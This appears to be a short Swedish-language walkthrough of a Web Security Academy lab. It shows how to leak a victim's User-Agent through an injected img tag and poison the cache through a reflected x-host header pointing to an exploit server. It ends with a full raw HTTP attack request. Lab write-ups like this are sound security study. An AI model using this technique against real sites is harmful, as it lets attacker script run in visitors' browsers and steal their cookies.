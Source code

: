 Det jag missade på denna var att User-Agent är en del av cached nyckeln.
Det betyder att varje användare som har en unik User-Agent: eller en user-agent som matchar den du skickar in kommer beröras av cachpoisoningen.

du vill ha en specifik användare ska beröras. kolla på js koden som finns för att sanera kommentarer. dom använder dompurify, fuck, men de tillåter img och src attribut. lägg en img div med exploit server som src. du kommer få user agenten i /log.

använd denna för att kunna cacha så att den berör victim. 

när du kör en param miner kommer du hitta att x-host: som reflekteras i en script div. länka exploit server och matcha path. lägg in en alert(doc.cookie) i body.

ta bort cb och skicka. labben är löst. se requesten nedan.


```
GET / HTTP/1.1
Host: 0a07004003ba76ee804462b100d900a8.h1-web-security-academy.net
Cookie: session=7jOhNESmp4gMpXpakjAi2jhRCBSeGXeE
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a07004003ba76ee804462b100d900a8.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
x-host: exploit-0a6c001f0313766d808461ed01e400ef.exploit-server.net
```